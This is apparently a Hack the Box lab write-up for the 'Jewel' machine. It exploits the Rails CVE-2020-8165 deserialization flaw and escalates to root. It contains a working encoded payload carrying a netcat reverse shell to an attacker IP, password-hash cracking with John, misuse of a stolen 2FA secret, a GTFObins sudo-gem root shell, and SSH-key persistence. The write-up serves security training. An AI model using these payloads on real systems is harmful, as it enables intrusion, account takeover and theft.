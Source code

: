 # Hack the Box - Jewel


<div style="text-align:center">Write-up of Jewel - Difficulty : Medium </div>

<!--more-->

>Experience is a jewel, and it need be so, for it is often purchased at an infinite rate.  
>  
> -William Shakespeare  

## 1. Overview

Jewel is a Linux box running gitweb as well as a blog site.

This version of gitweb is running a vulnerable version of Ruby on Rails. 
 
This CVE allowed for remote code execution (RCE) on the victim box and attain a reverse shell as user Bill.  

A sqldump accessible by the user in the backup folder allowed us to obtain the password hash for Bill. 

Cracking the hash and utilizing Bill's 2FA secret allowed us to break into the root account utilizing the gem command.


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 8000, and 8080 are open.

``` bash 
 nmap -sC -sV -T4 10.10.10.211 
```

![nmap](nmap.png)

  
We can see that SSH is open, Apache is running on 8000, and nginx is running on 8080.

### 2.2 Websites
#### 2.2.1 Gitweb
Next we'll go check out what sites those webservers are hosting.

If we open our browser and go to 10.10.10.211:8000 we get redirected to **/gitweb/**.
It looks like there's a project called "Bl0G!"
We can view the contents of the project by following the hyperlinks and we come to the gem file which tells us the Rails version is 5.2.2.1.

![gem](rubyversion.png)

After some google research we find that this version of Ruby has a vulnerability publicly disclosed as [CVE-2020-8165](https://nvd.nist.gov/vuln/detail/CVE-2020-8165).

Thanks to the PoC on github by [masahiro331](https://github.com/masahiro331/CVE-2020-8165) we can see what exactly needs to be done to exploit this version of Ruby and get our code running on the box.

```
$ curl 'localhost:3000/users?new=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T'
```

Great! So we have a possible exploit, but where are we supposed to put it? 
For that we go check out the other site this box is hosting.

#### 2.2.2 Bl0G!

So we head on over to 10.10.10:211:8080 in our browser and it brings us to the "Bl0G" page.

![Bl0G!](blog.png)

After some poking around we find we can make a user account and login.
We're able to read all the posts but don't seem to be able to interact with them in any other way.

## 3. Exploitation

Since we already know what exploit we're going to try we can start looking for a place to send it.

The only text field that we found that was able to be updated was the username field under our profile after we are logged in to the site.


After opening up Burp Suite and configuring our browser to use it as our proxy we're able to intercept the web traffic between us and the blog.


When we go to update our username we can edit that request before sending it to the server and insert that PoC script from before replacing code execution section with our reverse shell.
```
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.14.64+1234+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```

![burp](burp.png)


Before sending this off we need to start our netcat listener with **nc -lvnp 1234**.
Once that's listening we can send off that request and reload the webpage.

After the reload we get a connection on our listener as user Bill.


![shell](billshell.png)

This connection is just a simple shell so we can upgrade it using the python pty module.

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

First thing to do is a quick list of all files in Bill's home directory and take note of what we see.
If this write-up was helpful consider leaving some respect on my HTB profile.
![bill-home](billhome.png)

## 4. Privilege Escalation

We already have a user account but the ultimate goal is to own root.


After some enumeration in the common directories we find a sqldump in **/var/backups**.
When we read that file it looks like there's hashes for two different users. So let's grab those:

![sqldump](sqldumphash.png)

If we run **getent passwd** as Bill we can see that Jennifer doesn't appear to be a user on the box.
With that in mind we can try cracking Bill's hash first and save the other one for later, it might still be useful if it's crackable.

Once we copy the hash to our host machine we can run John the Ripper against it using the rockyou password list.

```bash
sudo john ./bill.hash --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
![john](john.png)

With Bill's password we attempted to connect via SSH but it seems to still be asking for a SSH key. I looked at Bill's home directory and there was no **.ssh** folder so I ran a quick **ssh-keygen** and echoed my **id_rsa.pub** into the newly created **authorized\_keys** file.

Now that we have Bill's password we can run a **sudo -l** to see if he can run any commands as root.
After putting in Bill's password the box asks for a 2FA code.  For that we go back to Bill's home directory where we saw that **.google_authenticator** file when we first gained access.

If we manually input the 2FA secret into the authenticator add-on for Chrome it will give us an authentication code to use.   
Unfortunately for us there still seems to be an error when using it.

![error](googleauth2.png)

Clearly the 2FA code didn't work. Since the codes are time based the first thing to look at what the time is set to on Jewel with **timedatectl** as well as our host machine.

![time](timedate1.png)

Well we're clearly not matching so we'll have to set our time-zone and time to match Jewel for our 2FA codes to work.
```bash
timedatectl set-timezone Europe/London

if the time is off you may need

timedatectl set-time XX:XX:XX 

to synchronize the times
```
After we sync our times the 2FA codes work and we can finally run our **sudo -l** commmand.

![sudo](sudocorrect.png)

Looks like Bill can run the **gem** command with sudo.

Let's head over to [GTFObins](https://gtfobins.github.io/) to see if there's a way to get root with this command.

Looks like if we run one simple command we can hop over to root. So let's do it.

```bash
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```
![sudogem](sudogem.png)

And just like that we have root.

As usual we can insert our **id_rsa.pub** key into root's **/root/.ssh/authorized\_keys** folder to we can get access without having to utilize Bill's user account.

## Conclusion

1. Make sure your project documents are locked down and your systems are patched.
2. You should never leave password hashes unprotected in an easily accessible location.
3. If you're going to utilize 2FA don't keep your 2FA secret in a folder on your computer.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="https://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>

